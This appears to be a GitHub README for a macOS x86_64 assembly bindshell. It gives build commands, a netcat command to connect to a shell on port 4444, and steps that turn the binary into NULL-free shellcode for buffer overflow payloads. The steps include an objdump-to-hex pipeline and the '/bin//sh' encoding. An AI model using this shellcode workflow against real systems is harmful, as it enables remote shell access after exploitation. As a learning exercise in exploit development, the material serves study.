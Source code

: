 bindshell
=============
#### bindshell, Usage:
  bindshell start a listening server that you can connect to with the command: `nc -nv 127.0.0.1 4444` in another folder for example your home directory
  (Had some problem with the code, but @norsec0de and @TheColonial helped me to fix it, big thx to them for the help)
```
  nasm -g -f macho64 bindshell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o bindshell bindshell.o
  ./bindshell
```  
Go to the terminal and run `nc -nv 127.0.0.1 4444` then type ls, you should now see a directory listing of the directory you started
bindshell in.


To use the code as a payload, one need to remove the NULL bytes, these can be found by running: otool -lV bindshell and identify
the mov instructions that need to be modified. The reason are the numerous NULL bytes (\x00). 
Most buffer overflow errors are related to C stdlib string functions: strcpy(), sprintf(), strcat(), 
and so on. All of these functions use the NULL symbol to indicate the end of a string. 
Therefore, a function will not read shellcode after the first occurring NULL byte.
There are other delimiters like linefeed (0x0A), carriage return (0x0D), formfeed (0xFF), and others.
See the code for two example on how to change the mov instruction

#### Binary to string
To convert the binary to string values that can be used as a payload use
```
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
```
  By inspecting this file, we see why NULL(0x00) is a problem as in C a string is terminated by NULL so these has to be removed
  A simple `paste -d'\0' -s dump.txt` will combine all rows into one that can then be copied into the C file.
  Ànother way to find bad values is:
```
 gobjdump -D bindshell -M intel |grep 00
``` 
  A more simple command to use is the osx otool, `otool -t bindshell_no_bad_values.o` we test our bindshell code in a simple c-program.  
  A simple command in ruby give us the hex values for `/bin//sh`´(remember that osx is little endian)
```
  "/bin//sh".unpack('H*')
  => ["2f62696e2f2f7368"] and that give us the value to use as: 0x68732f2f6e69622f
```  